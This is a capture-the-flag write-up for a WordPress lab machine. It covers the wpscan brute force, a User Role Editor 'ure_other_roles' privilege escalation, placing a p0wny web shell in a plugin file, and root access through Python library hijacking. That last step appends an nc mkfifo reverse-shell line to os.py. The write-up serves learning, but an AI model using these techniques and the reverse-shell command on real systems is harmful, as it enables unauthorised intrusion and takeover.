 # Jack

This one was hard. Several new things learned. And I unashamedly used both the tips on the room and light pointers in the right direction from some online sources.

"Compromise a web server running Wordpress, obtain a low privileged user and escalate your privileges to root using a Python module."

1. Recon showed 22 and 80. Sure enough a wpscan sat on 80.

2. `wpscan` revealed three users: jack, wendy and danny. 

    The hint for the user flag was "Wpscan user enumeration, and don't use tools (ure_other_roles)". This reveals two things: 
    
    First, `ure_other_roles` is a tip to an exploit with the user role editor plugin (which I confirmed was there by navigating to `http://jack.thm/wp-content/plugins/user-role-editor/readme.txt`). The vuln is trivial: when saving a profile in the editor, you can add `&ure_other_roles=administrator` to the post body and it will grant the user admin roles. 
    
    Importantly though, this requires being logged in as a low-priv user. The wpscan user enumeration is typically used with a brute force attack (again using wpscan).

    > At this point I got stuck. But thats okay, because so did everyone else from what I can see. The standard word list you use for bruteforcing is rockyou.txt, but it wasn't working (ran it for two hours, no luck, which is usually a hint your'e going in the wrong direction)
    >
    > I tried several other wordlists from seclists with no luck.
    > 
    > The answer was both simple and a huge surprise. I was convinced that in kali, there is only one file under `/usr/share/wordlists`: rockyou. However, there is *actually a second wordlist there*, `fasttrack.txt`. I was as surprised as everyone else's walkthrough I checked.

3. `wpscan --url jack.thm -U wendy,danny -P /usr/share/wordlists/fasttrack.txt` quickly picked up a password for wendy: `changelater`

4. Once into the site, I used the vulnerability with the user role editor to grant wendy admin rights. 

5. I replaced the content of the akismet plugin's index.php with p0wny shell (probably overkill - could have added a new file or uploaded something), then browsed to `http://jack.thm/wp-content/plugins/akismet/index.php` to get a web shell.

6. In the user directory were two text files: `user.txt` and `reminder.txt`. The first contained the user flag: `0052f7829e48752f2e7bf50f1231548a`

7. The second contained: `Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.`. From this I went looking for backups (`locate backups`) and found a suspicious `/var/backups/id_rsa`.

8. I copied this to my attacker machine, changed its permissions with `chmod 600 id_rsa`, then used `ssh -i id_rsa jack@jack.thm` to log on as jack.

9. The final escalation hint was "Python". From the room description I knew this was a python module escalation, which I hadn't heard before.

    > I did a google and found this article: https://rastating.github.io/privilege-escalation-via-python-library-hijacking/, The whole thing is worth a read, and from it I solved this final challenge.
    >
    > Basically, if a python script is being run by root, and it imports something, and you have the ability to alter either: any of the search directories python uses for import sources; or any of the imported files themselves, then you can get code execution by reference.

10. I ran a search (`find / -name "*.py" -user root 2>/dev/null`) to find suspicious files: on the giant list, the very first file was very suspicious: `/opt/statuscheck/checker.py`. Next to it was an output.log containing header information for the wordpress site, updated every two minutes. The checker.py file contained:

    ```python
    import os

    os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
    ```

    I could see updates entering the log file every two minutes via `cat /opt/statuscheck/output.log | tail`

11. I couldn't modify the file. Nor could I modify any of the source directories python looked into (I checked this with a little bash scripting: `for path in $(python -c 'import sys; print "\n".join(sys.path)'); do namei -l $path ; done`. note the use of `namei -l` to get a full list of file/folder permissions for each entry). However I did discover that `os.py` under `/usr/lib/python2.7` *WAS* writable (checked via `for path in $(locate os.py); do namei -l $path; done`).

12. Adding a python shell to this proved problematic. Python shells use functionality from os.py, after all. Ultimately, the solution was to open os.py, go to the bottom, and add a new line: `system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.203.251 4444 >/tmp/f')`. The nice nc reverse shell for when all you have is nc.openbsd (as was the case on this machine). I tested this (getting an unpriviliged shell) via `python -c "import os"`

13. Went back to my attacker machine, opened a reverse listener, and within a minute I had a root shell! The final flag at `/root/root.txt` was `b8b63a861cc09e853f29d8055d64bffb`.

Overall a very tough room, but also simple in its individual elements. Things I learned:

- `fasttrack.txt`!
- `ure_other_roles` exploit (worth keeping in mind if I find myself with a low-priv wordpress user)
- clever uses of `locate` and bash scripting. also `namei -l`
- python module privesc :)